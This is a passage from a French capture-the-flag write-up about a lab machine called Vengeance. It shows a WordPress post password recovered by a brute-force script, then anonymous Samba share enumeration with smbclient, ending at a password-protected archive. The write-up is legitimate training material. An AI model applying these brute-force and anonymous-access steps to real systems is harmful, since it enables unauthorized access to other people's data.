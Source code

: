 
Il aura fallu ajouter une étape supplémentaire pour passer la wordlist en lowercase mais après ça fonctionnait :

```console
$ python3 brute_wp_post.py "http://vengeance.goodtech.inc/?p=23" dico.txt 
Wordpress login URL is at http://VENGEANCE.goodtech.inc/wp-login.php?action=postpass
Found password suzuka
```

Le post dévoilé ne nous apporte finalement rien de valeur...

## T'étais où, t'es pas là

Après avoir tourné sur les différents services pendant un moment, j'ai découvert que d'autres participants avaient droit à des ports en plus. Et effectivement si je relance `Nmap` :

```
139/tcp   open   netbios-ssn  Samba smbd 4.6.2
|_auth-owners: root
--- snip ---
445/tcp   open   netbios-ssn  Samba smbd 4.6.2
|_auth-owners: root
```

Arggggggh. On part donc sur cette piste.

```console
$ smbclient -U "" -N -L //192.168.56.122

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        print$          Disk      Printer Drivers
        sarapublic$     Disk      Sara's Public Files
        IPC$            IPC       IPC Service (vengeance server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
$ smbclient -U "" -N '//192.168.56.122/sarapublic$'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar  8 11:28:35 2021
  ..                                  D        0  Mon Mar  8 11:29:24 2021
  eaurouge.txt                        N       11  Mon Mar  8 03:46:53 2021
  eaurouge                            N      110  Tue Feb 23 12:06:40 2021
  essay.txt                           N     1257  Mon Mar  8 11:28:34 2021
  gio.zip                             N 11150297  Sun Feb 21 06:48:13 2021
  cognac                              D        0  Tue Feb 23 18:48:47 2021
  blurb.txt                           N      525  Mon Mar  8 03:55:24 2021
  champagne                           D        0  Tue Feb 23 17:15:07 2021
  profile.txt                         N      337  Mon Mar  8 03:45:26 2021

                19475088 blocks of size 1024. 10495512 blocks available
```

L'archive *gio.zip* est protégée par mot de passe.
